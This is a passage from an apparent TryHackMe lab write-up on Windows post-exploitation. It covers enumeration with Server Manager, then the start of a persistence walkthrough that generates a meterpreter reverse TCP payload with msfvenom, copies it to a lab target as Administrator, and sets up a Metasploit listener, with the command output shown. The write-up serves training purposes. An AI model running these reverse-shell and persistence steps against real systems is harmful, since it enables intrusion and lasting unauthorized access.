 ![](https://pymaster-ft.github.io/assets/img/thm/windows/windows-post-exploitation-basics/psexec.png)

___

## Enumeration w/ Server Manager

**Server Manager** is a built in windows feature. If we already have access to a domain admin account, then we can use it to change trusts, add or remove users, look at groups. etc.

![](https://pymaster-ft.github.io/assets/img/thm/windows/windows-post-exploitation-basics/server-manager.png)

___

## Maintaining Access

> TODO: look at advanced backdoors and rootkits, adding users and so on.

### Persistence metasploit module

1) Generate a basic windows meterpreter reverse tcp shell

```bash
$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=$(vpnip) LPORT=5555 -f exe -o shell.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 354 bytes
Final size of exe file: 73802 bytes
Saved as: shell.exe
```

2) Transfer the payload from your attacker machine to the target machine:

```bash
$ scp shell.exe Administrator@10.10.245.132:
Administrator@10.10.245.132's password: 
shell.exe       100%   72KB 559.7KB/s   00:00
```

3) Run a listener:

```bash
$ msfconsole -q
[*] Starting persistent handler(s)...
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > options 

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST                      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:
```